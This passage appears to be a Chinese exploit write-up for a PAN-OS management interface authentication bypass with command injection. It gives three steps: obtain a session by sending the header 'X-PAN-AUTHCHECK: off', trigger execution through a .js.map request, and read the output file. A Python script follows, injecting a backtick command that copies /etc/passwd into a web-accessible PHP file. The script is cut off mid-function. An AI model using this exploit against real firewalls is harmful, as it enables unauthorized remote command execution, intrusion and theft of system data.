  第一步：发送数据包，执行认证绕过获得 PHPSESSID，并执行命令 id，将结果保存到指定文件  

![](https://cdn.nlark.com/yuque/0/2024/png/46595937/1734417451751-754826a3-8027-41a3-bc7b-e7043f626791.png)

 第二步：使用第一步获取的PHPSESSID，请求index.php/.js.map 触发第一步的请求，执行命令  

![](https://cdn.nlark.com/yuque/0/2024/png/46595937/1734417469339-aac7d41d-e07d-4b5e-825e-8926a60f1759.png)

 第三步：请求第一步中命令写入的文件，验证命令是否执行，id 执行成功，并且能访问到执行结果  

![](https://cdn.nlark.com/yuque/0/2024/png/46595937/1734417486892-0b25feea-65ee-4a0a-b109-6317a95f8186.png)

# py脚本
```python
#coding:utf-8
import argparse
import requests
import re
import time
import random
import base64
import json
import concurrent.futures
import sys
import urllib.parse

# 禁用 SSL 警告
requests.packages.urllib3.disable_warnings()

timeout = 10  # 请求超时时间

def session(url,proxies={}):
    if not url.startswith(('http://', 'https://')):
        # 如果没有，就添加 'http://'
        url = 'http://' + url
    headers = {
        'X-PAN-AUTHCHECK': 'off',
        'Content-Type': 'application/x-www-form-urlencoded'
    }

    data = {
        'user': '`cat /etc/passwd > /var/appweb/htdocs/unauth/x1.php`',
        'userRole': 'superuser',
        'remoteHost': '',
        'vsys': 'vsys1'
    }
    aurl = url + '/php/utils/createRemoteAppwebSession.php/x1.js.map'
    try:
        r = requests.post(aurl, headers=headers, data=data, verify=False, allow_redirects=False, timeout=timeout,proxies=proxies)
        if r and 'PHPSESSID' in r.cookies:
            phpsessid = r.cookies['PHPSESSID']
            verify(url, phpsessid, proxies={})
            return phpsessid
        else:
            print('PHPSESSID not found')
            return None
    except requests.exceptions.RequestException as e:
        print(e)

def verify(url, phpsessid, proxies={}):
    headers = {
        'Cookie': f'PHPSESSID={phpsessid}',
```